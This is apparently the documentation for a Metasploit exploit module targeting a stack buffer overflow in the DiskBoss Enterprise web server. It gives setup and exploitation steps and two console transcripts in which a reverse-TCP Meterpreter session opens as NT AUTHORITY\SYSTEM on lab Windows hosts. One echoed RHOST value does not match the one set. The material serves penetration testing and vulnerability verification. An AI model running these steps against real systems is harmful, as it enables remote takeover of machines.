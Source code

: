 ## Vulnerable Application

[DiskBoss Enterprise](http://www.diskboss.com) versions up to v7.5.12 are affected by a stack-based buffer overflow vulnerability which can be leveraged by an attacker to execute arbitrary code in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is caused by improper bounds checking of the request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows XP SP3 and Windows 7 SP1. The vulnerable application is available for download at [Exploit-DB](https://www.exploit-db.com/apps/71a11b97d2361389b9099e57f6400270-diskbossent_setup_v7.4.28.exe).

## Verification Steps
  1. Install a vulnerable DiskBoss Enterprise
  2. Start `DiskBoss Enterprise` service
  3. Start `DiskBoss Enterprise` client application
  4. Navigate to `Tools` > `DiskBoss Server Options` > `Server`
  5. Check `Enable Web Server On Port 80` to start the web interface
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/diskboss_get_bof`
  8. Do `set rhost ip`
  9. Do `check`
  10. Verify the target is vulnerable
  11. Do `set payload windows/meterpreter/reverse_tcp`
  12. Do `set lhost ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

###DiskBoss Enterprise v7.5.12 on Windows XP SP3

```
msf exploit(diskboss_get_bof) > options

Module options (exploit/windows/http/diskboss_get_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.198.130  yes       The target address
   RPORT    80               yes       The target port
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.198.138  yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf exploit(diskboss_get_bof) > exploit

[*] Started reverse TCP handler on 192.168.198.138:4444 
[*] Automatically detecting the target...
[*] Selected Target: DiskBoss Enterprise v7.5.12
[*] Sending stage (957999 bytes) to 192.168.198.130
[*] Meterpreter session 1 opened (192.168.198.138:4444 -> 192.168.198.130:4476) at 2017-01-08 05:12:46 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : GABOR-03722ADE8
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```

###DiskBoss Enterprise v7.4.28 on Windows 7 SP1

```
msf exploit(diskboss_get_bof) > set rhost 192.168.198.133
rhost => 192.168.198.130
msf exploit(diskboss_get_bof) > exploit

[*] Started reverse TCP handler on 192.168.198.138:4444 
[*] Automatically detecting the target...
[*] Selected Target: DiskBoss Enterprise v7.4.28
[*] Sending stage (957999 bytes) to 192.168.198.133
[*] Meterpreter session 2 opened (192.168.198.138:4444 -> 192.168.198.133:49187) at 2017-01-08 05:16:13 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BCJL9PJ5BF5
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```
